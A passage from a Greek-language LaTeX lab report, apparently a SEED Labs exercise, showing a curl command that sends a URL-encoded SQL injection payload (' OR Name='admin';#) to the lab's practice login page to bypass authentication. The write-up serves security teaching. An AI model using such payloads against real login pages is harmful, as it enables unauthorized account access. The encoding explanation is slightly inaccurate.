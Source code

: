 \begin{center}
			\includegraphics[width=1\textwidth]{image/2.4.PNG}		
\end{center}


\subsection{Επίθεση SQL Injection από τη γραμμή εντολών}
\subsection*{Απάντηση:}

\noindent
Για την επίθεση μεσώ γραμμής εντολών χρησιμοποιούμε την παρακάτω εντολή.

\begin{center}
	\begin{lstlisting}	
curl http://www.seedlabsqlinjection.com/
unsafe_home.php?username=%27+OR+Name
+%3D+%27admin%27%3B%23&Password=
	\end{lstlisting}	
\end{center}

\noindent 
Επειδή το εκτελούμε στην γραμμή εντολών πρέπει να μετατρέψουμε τους ιδικούς χαρακτήρες
σε Ascii για παράδειγμα ο χαρακτήρας ' μεταφράζετε σε %

\begin{center}
			\includegraphics[width=1\textwidth]{image/d2.4.1.PNG}		
\end{center}

